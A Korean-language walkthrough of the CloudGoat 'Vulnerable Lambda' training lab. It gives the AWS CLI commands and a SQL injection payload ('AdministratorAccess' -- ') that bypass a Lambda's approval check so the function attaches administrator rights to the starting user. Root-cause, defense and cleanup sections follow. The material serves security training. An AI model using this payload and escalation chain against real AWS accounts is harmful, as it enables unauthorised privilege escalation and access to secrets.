

# 11. Vulnerable Lambda

- 난이도: Medium
- 핵심: 호출 가능한 Lambda의 SQL Injection으로 승인 목록을 우회하고, Function Execution Role이 시작 User에게 관리자 Policy를 연결하게 만듭니다.

## Attack Path



## 1. Invoker Role 확인·전환

시작 User의 Policy와 대상 Role Trust를 확인합니다. Invoker Role에는 Function 조회·Code Download·호출 권한이 있습니다.

```bash
aws configure set role_arn <INVOKER_ROLE_ARN> \
  --profile <INVOKER_PROFILE>
aws configure set source_profile <START_PROFILE> \
  --profile <INVOKER_PROFILE>
aws configure set role_session_name cloudgoat-vulnerable-lambda \
  --profile <INVOKER_PROFILE>

aws sts get-caller-identity --profile <INVOKER_PROFILE>
```

## 2. Function Code와 Database 분석

```bash
aws lambda list-functions \
  --profile <INVOKER_PROFILE> \
  --region <REGION>

CODE_URL="$(aws lambda get-function \
  --function-name <FUNCTION_NAME> \
  --profile <INVOKER_PROFILE> \
  --region <REGION> \
  --query Code.Location \
  --output text)"

curl --fail --location "$CODE_URL" --output function.zip
unzip function.zip -d artifacts/function
```

다운로드 URL은 일시적인 권한을 가지므로 공유하지 않습니다. Code의 핵심은 사용자 입력을 SQL 문자열에 직접 넣는 부분입니다.

```python
statement = (
    "select policy_name from policies "
    f"where policy_name='{policy}' and public='True'"
)
```

SQLite에는 읽기 전용 Policy가 `public=True`, 관리자 Policy가 `public=False`로 저장되어 있습니다. 하지만 Parameter Binding이 없어 승인 조건을 주석 처리할 수 있습니다.

## 3. 승인 조건 우회 Payload

```bash
jq -n \
  --arg user <START_USER_NAME> \
  --arg policy "AdministratorAccess' -- " \
  '{policy_names: [$policy], user_name: $user}' \
  > payload.json
```

SQL은 다음처럼 해석됩니다.

```sql
SELECT policy_name
FROM policies
WHERE policy_name='AdministratorAccess' -- ' AND public='True'
```

`public=True` 조건이 주석 처리되고 Function은 조회 결과를 이용해 시작 User에게 AWS 관리형 관리자 Policy를 연결합니다.

## 4. Function 호출과 검증

```bash
aws lambda invoke \
  --function-name <FUNCTION_NAME> \
  --payload fileb://payload.json \
  --profile <INVOKER_PROFILE> \
  --region <REGION> \
  response.json

jq . response.json

aws iam list-attached-user-policies \
  --user-name <START_USER_NAME> \
  --profile <START_PROFILE>
```

Lambda API의 `StatusCode: 200`만 보지 않고 `FunctionError`와 Function 응답을 함께 확인합니다. 원래 Profile의 Key는 바뀌지 않지만 연결된 Policy가 바뀌어 권한 평가 결과가 달라집니다.

최종적으로 Scenario 이름으로 범위를 좁혀 Secrets Manager의 목표값을 확인합니다. 다른 Secret을 불필요하게 열거하지 않습니다.

## Root Cause

- Invoker가 Function Code와 Artifact를 내려받을 수 있었습니다.
- 사용자 입력을 Parameterized Query 없이 SQL에 연결했습니다.
- Lambda Execution Role이 시작 User에게 관리형 Policy를 연결할 수 있었습니다.
- Function이 Caller가 지정한 User 이름과 Policy를 신뢰했습니다.

## Defense

- SQL Parameter Binding과 Server-side Allowlist를 사용합니다.
- Function 입력에서 대상 User·Policy를 Caller가 고르게 하지 않습니다.
- Execution Role의 `iam:AttachUserPolicy` Resource와 허용 Policy를 엄격히 제한합니다.
- `GetFunction`, Code Artifact 접근과 `InvokeFunction`을 분리합니다.
- Lambda 호출 직후 IAM Policy가 연결되는 연속 행위를 탐지합니다.

## Cleanup

Scenario가 동적으로 연결한 관리자 Policy가 제거됐는지 확인한 뒤 `cloudgoat destroy`를 실행합니다. 로컬의 Function ZIP, Payload, Response와 AWS CLI Profile도 삭제합니다.
